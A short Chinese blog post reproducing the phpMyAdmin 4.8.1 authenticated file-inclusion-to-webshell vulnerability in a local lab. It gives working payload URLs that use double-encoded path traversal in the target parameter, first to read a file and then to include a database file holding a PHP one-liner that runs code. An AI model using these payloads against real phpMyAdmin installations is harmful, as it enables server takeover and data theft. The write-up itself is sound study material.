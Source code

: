 ```yaml
---
title: phpMyAdmin 4.8.1后台getshell漏洞复现
date: 2018-06-25 13:43:40
tags: "phpmyadmin"
---
```


## 漏洞分析
弱鸡一枚，还分析个毛线，直接照着大佬的操作复现吧。

## 漏洞复现
下载目标版本的包，解压安装之。
环境：
- [x] phpstudy 2016
- [x] php 5.5.38
- [x] Apache

使用默认口令root/root登录系统。

![image](http://wx3.sinaimg.cn/mw690/a1a4875fgy1fsniyv9aj2j20wd0l5gxl.jpg)

漏洞第一步是文件包含的利用。

**payload:**
```
http://localhost:8888/phpMyAdmin-4.8.1/index.php?target=db_sql.php%253f/../../../../../../../../../phpStudy//test.ini
```
直接使用浏览器访问payload。

![image](http://wx4.sinaimg.cn/mw690/a1a4875fgy1fsniyw5o4hj20so0o214e.jpg)

**我是使用win10的机器，只能读取phpmyadmin所在盘符下的文件，不知道怎么跨盘符，有知道得表哥还望指点一二。。。**

在此基础上，可以实现不写文件也能getshell。

首先，我们登录了phpmyadin，是可以完全控制数据库的，于是可以把webshell写入到数据库中，然后包含之。

尝试写一句话到测试数据库文件中。

![image](http://wx4.sinaimg.cn/mw690/a1a4875fgy1fsniyws3o3j20qk0khdmd.jpg)

发现一句话确实已经在数据库文件中了，那就开始“含”住它吧！

**payload:**
```
http://localhost:8888/phpMyAdmin-4.8.1/index.php?a=phpinfo();&target=db_sql.php%253f/../../../../../.././../../../../../phpStudy/MySQL/data/test/test1.frm
```
Bingo！

![image](http://wx1.sinaimg.cn/mw690/a1a4875fgy1fsniyxlzjpj20qg0htk6q.jpg)

哎，工头又喊我去搬砖了，小弟告辞。

![image](http://www.gaoxiaogif.com/d/file/201801/9cd66c37bbe862c5e5f77681cc97204c.jpg)
